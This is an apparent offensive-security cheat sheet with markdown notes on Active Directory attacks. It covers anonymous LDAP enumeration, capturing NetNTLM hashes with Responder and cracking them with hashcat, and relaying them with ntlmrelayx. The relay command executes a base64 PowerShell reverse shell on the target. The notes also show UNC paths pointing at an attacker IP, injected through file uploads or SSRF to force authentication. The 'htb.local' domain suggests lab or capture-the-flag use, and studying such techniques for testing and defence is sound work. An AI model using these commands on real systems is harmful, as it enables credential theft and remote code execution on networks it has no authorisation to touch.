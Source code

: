 ## LDAPenumeration

- **anonymous bind**: 
	- `ldapsearch -x -H ldap://<IPTARGET>:<LDAP PORT> -D '' -w '' -b "DC=htb,DC=local" samaccountname description`

## NetNTLMcracking

**Tools**:
- [Responder](https://github.com/SpiderLabs/Responder)
- `hashcat`

**Steps**:
1. *Responder.py* setup
	-  `sudo python3 Responder.py -I <interface> -wdv`
2. ..*waiting for events to force NTLM authentication*..
	- ***with** code execution*:
		- `ls \\<ATTACKER IP>\share`
	- ***without** code execution*:
		- if we discover a file upload form in a webapp on Windows server we could try to insert a non-existing file with a UNC path such as `\\<ATTACKER IP>\share\nonexistent.txt`
		- if webapp supports upload via SMB, the server will authenticate to the SMB server of the Responder
		- *Server Side Request Forgery*
3. *cracking* - `hashcat -m 5600 <Net NTLM.txt> <wordlist>`

## NetNTLMrelaying

### classic

**Requirements**:
- SMB signing disabled on target machine
- user we are relaying NetNTLM must be local admin on the target machine

**Tools**:
- `nmap`
- `crackmapexec`
- `ntlmrelayx.py` - *impacket*

**Steps**:
1. identify targets that do not require *SMB signing* ("*signing enable but not required*"):
	- `sudo nmap --script smb-security-mode.nse,smb2-security-mode.nse -p445 <IP target>`
	- `crackmapexec smb <IP target> --gen-relay-list targets.txt`
2. netcat *listener* listening on a given port
3. *ntlmrelayx.py* setup:
	- `sudo python3 ntlmrelayx.py --no-http-server -smb2support -t <IP MACHINE TARGET> -c "powershell -enc JABjAG[PAYLOAD POWERSHELL REVERSE SHELL BASE64 ENCODED]"`
4. ..*waiting for events to force NTLM authentication*..
	- ***with** code execution*:
		- `ls \\<ATTACKER IP>\share`
	- ***without** code execution*:
		- if we discover a file upload form in a webapp on Windows server we could try to insert a non-existing file with a UNC path such as `\\<ATTACKER IP>\share\nonexistent.txt`
		- if webapp supports upload via SMB, the server will authenticate to the SMB server of the Responder
